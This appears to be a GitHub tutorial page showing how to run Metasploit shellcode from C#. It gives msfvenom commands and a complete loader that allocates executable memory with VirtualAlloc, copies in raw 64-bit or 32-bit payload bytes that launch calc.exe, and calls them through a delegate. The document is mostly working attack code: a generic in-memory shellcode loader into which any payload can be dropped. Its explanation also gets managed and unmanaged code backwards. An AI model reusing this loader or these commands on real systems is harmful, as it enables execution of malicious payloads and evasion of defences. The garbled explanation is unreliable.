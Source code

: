 ## We write a program to execute native windows payloads as unmanaged code. (using metasploit)

- Msf payloads generated in 32/64bit assembly code is called unmanaged code, where you compile C# code into a dll or exe it is referred to as managed code. The difference betweeen the two is that unmanaged code requires mono/.NET to run whereas managed can be run directly.

- To execute unmanaged assembly code within a managed environment we'll use the .NET's P/Invoke to import and run the VirtualAlloc() function from Kernel32.dll. (lets us allocate memory) 

- We use the DllImport attribute to look for a lib at runtime.

- We generate our unmanaged code(pop calc.exe) using:

	> `msfvenom -p windows/x64/exec -f csharp CMD=calc.exe` -x64

	> `msfvenom -p windows/exec -f csharp CMD=calc.exe` -x86


### CODE:

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;


namespace msf_payload_using_Csharp
{
    public class MainClass
    {
        // Look for kerner32.dll at runtime
        [DllImport("Kernel32")]
        // Importing VirtualAlloc() from kernel32.dll
        static extern IntPtr VirtualAlloc(IntPtr ptr, IntPtr size, IntPtr type, IntPtr mode);
        // Set this attr to call VirtualAlloc using stdCall to run unmanaged functions
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        // Declaring delegate with UnmanagedFunctionPointer attr 
        delegate void WindowsRun();

        public static void Main(string[] arg)
        {
            // Identifies platform property
            OperatingSystem os = Environment.OSVersion;
            // Verifying architecture by check IntPtr size (4 for 32bit, 8 for 64bit)
            bool x86 = (IntPtr.Size == 4);
            byte[] payload;

            if (os.Platform == PlatformID.Win32Windows || os.Platform == PlatformID.Win32NT)
            {
                // shellcode gen for x86-x64 using msf
                if (!x86)
                    payload = new byte[] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
                // shellcode gen for x86 using msf
                else
                    payload = new byte[] { 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00  };

                // Returns ptr to allocated memory
                IntPtr ptr = VirtualAlloc(IntPtr.Zero, (IntPtr)payload.Length, (IntPtr)0x1000, (IntPtr)0x40);
                // Copying payload directly to memory space
                Marshal.Copy(payload, 0, ptr, payload.Length);
                // Ref assembly as an unmanaged func ptr
                WindowsRun r = (WindowsRun)Marshal.GetDelegateForFunctionPointer(ptr, typeof(WindowsRun));
                // Calling delegated func to execute assembly code
                r();
            }
        }
    }
}
```

## OUTPUT:

_Calc.exe Popped!_

